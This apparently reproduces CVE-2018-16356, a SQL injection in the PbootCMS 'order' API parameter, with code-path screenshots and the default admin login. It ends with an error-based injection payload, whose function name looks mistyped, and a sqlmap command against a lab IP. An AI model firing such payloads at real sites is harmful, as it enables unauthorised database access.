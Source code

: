 pbootcms SQL注入 （CVE-2018-16356）

描述: PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。 PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。 后台路径：/admin.php 用户名密码：admin:123456 授权码自行获取：https://www.pbootcms.com/freesn/

![image-20211027192715921](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211027192715921.png)

填写到后台"全局配置>>配置参数"中



复现：

http://xxx/api.php/List/index?order=123

$order参数是我们可以控制的

![image-20211027193311859](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211027193311859.png)

转到函数getList，该参数在函数顺序中使用

![image-20211027193422710](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211027193422710.png)

再去看function order函数

![image-20211027193437644](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211027193437644.png)





哦 记得去后台开启APi功能。还要禁用“强制api用户”，打开appid参数

不能不能sql注入

构造payload

/api.php/List/index?order=123 and (updatexm(1,concat(0x7e,(select user())),0))#

sqlmap -u http://192.168.1.192:30677/api.php/List/index?order=123

![image-20211027195025840](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211027195025840.png)